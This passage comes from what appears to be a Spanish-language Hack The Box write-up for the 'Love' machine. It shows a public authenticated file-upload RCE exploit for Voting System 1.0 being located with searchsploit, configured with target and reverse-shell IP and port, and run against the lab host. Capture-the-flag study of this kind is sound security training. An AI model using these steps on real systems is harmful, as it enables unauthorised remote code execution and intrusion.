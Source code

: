 Hemos logrado acceder al panel de administración como el usuario *Neovic Devierte*; ahora, validando el sitio, se observa que se trata de un sistema llamado *VotingSystem*, por lo que buscamos si existe un exploit público mediante `searchsploit`.

```bash
❯ searchsploit voting system
------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                   |  Path
------------------------------------------------------------------------------------------------- ---------------------------------
Online Voting System - Authentication Bypass                                                     | php/webapps/43967.py
Online Voting System Project in PHP - 'username' Persistent Cross-Site Scripting                 | multiple/webapps/49159.txt
Voting System 1.0 - File Upload RCE (Authenticated Remote Code Execution)                        | php/webapps/49445.py
------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Se observa un recurso que permite la ejecución de código contanto con un usuario autenticado, por lo que descargamos el archivo *49445.py* y lo renombramos como *voting_system.py*.

```bash
❯ searchsploit -m php/webapps/49445.py
  Exploit: Voting System 1.0 - File Upload RCE (Authenticated Remote Code Execution)
      URL: https://www.exploit-db.com/exploits/49445
     Path: /usr/share/exploitdb/exploits/php/webapps/49445.py
File Type: ASCII text, with very long lines, with CRLF line terminators

Copied to: /home/kamiyo/Documentos/HTB/Love/exploits/49445.py

> mv 49445.py voting_system.py
```

Abrimos el archivo y realizamos las modificaciones correspondiente:
- IP = "10.10.10.239"
- USERNAME = "admin"
- PASSWORD = "" # Introducir el password obtenido
- REV_IP = 10.10.14.5
- REV_PORT = "443"

Así mismo, para las variables *INDEX_PAGE*, *LOGIN_URL*, *VOTE_URL* y *CALL_SHELL*, eliminar de la dirección URL la palabra **votesystem**, teniendo como resultado `http://{IP}/admin/`. Una vez realizados los cambios, procedemos a ejecutar el archivo y nos ponemos en escucha por el puerto 443:

```bash
❯ python voting_system.py
Start a NC listner on the port you choose above and run...
Logged in
Poc sent successfully

```
